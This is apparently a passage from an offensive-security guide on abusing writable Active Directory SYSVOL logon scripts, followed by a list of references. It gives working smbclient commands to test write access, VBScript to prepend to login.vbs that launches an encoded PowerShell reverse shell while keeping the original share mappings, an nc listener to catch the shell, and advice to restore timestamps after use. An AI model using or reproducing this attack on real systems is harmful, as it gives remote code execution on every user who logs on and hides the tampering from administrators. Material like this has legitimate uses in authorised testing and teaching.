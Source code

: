 ```bash
# Interactive write test
smbclient \\<dc>\SYSVOL -U <user>%<pass>
smb: \\> cd <domain>\scripts\
smb: \\<domain>\scripts\\> put smallfile.txt login.vbs   # check size/time change
```

If file size or mtime changes, you have write. Preserve originals before modifying.

### Poison a VBScript logon script for RCE
Append a command that launches a PowerShell reverse shell (generate from revshells.com) and keep original logic to avoid breaking business function:

```vb
' At top of login.vbs
Set cmdshell = CreateObject("Wscript.Shell")
cmdshell.run "powershell -e <BASE64_PAYLOAD>"

' Existing mappings remain
MapNetworkShare "\\\\<dc_fqdn>\\apps", "V"
MapNetworkShare "\\\\<dc_fqdn>\\docs", "L"
```

Listen on your host and wait for the next interactive logon:

```bash
rlwrap -cAr nc -lnvp 443
```

Notes:
- Execution happens under the logging user’s token (not SYSTEM). Scope is the GPO link (OU, site, domain) applying that script.
- Clean up by restoring the original content/timestamps after use.

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges)
- [https://wald0.com/?p=112](https://wald0.com/?p=112)
- [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [https://adsecurity.org/?p=3658](https://adsecurity.org/?p=3658)
- [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System_DirectoryServices_ActiveDirectoryAccessRule\_\_ctor_System_Security_Principal_IdentityReference_System_DirectoryServices_ActiveDirectoryRights_System_Security_AccessControl_AccessControlType\_](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System_DirectoryServices_ActiveDirectoryAccessRule__ctor_System_Security_Principal_IdentityReference_System_DirectoryServices_ActiveDirectoryRights_System_Security_AccessControl_AccessControlType_)
- [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System_DirectoryServices_ActiveDirectoryAccessRule__ctor_System_Security_Principal_IdentityReference_System_DirectoryServices_ActiveDirectoryRights_System_Security_AccessControl_AccessControlType_](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryaccessrule.-ctor?view=netframework-4.7.2#System_DirectoryServices_ActiveDirectoryAccessRule__ctor_System_Security_Principal_IdentityReference_System_DirectoryServices_ActiveDirectoryRights_System_Security_AccessControl_AccessControlType_)
- [BloodyAD – AD attribute/UAC operations from Linux](https://github.com/CravateRouge/bloodyAD)
- [Samba – net rpc (group membership)](https://www.samba.org/)
- [HTB Puppy: AD ACL abuse, KeePassXC Argon2 cracking, and DPAPI decryption to DC admin](https://0xdf.gitlab.io/2025/09/27/htb-puppy.html)
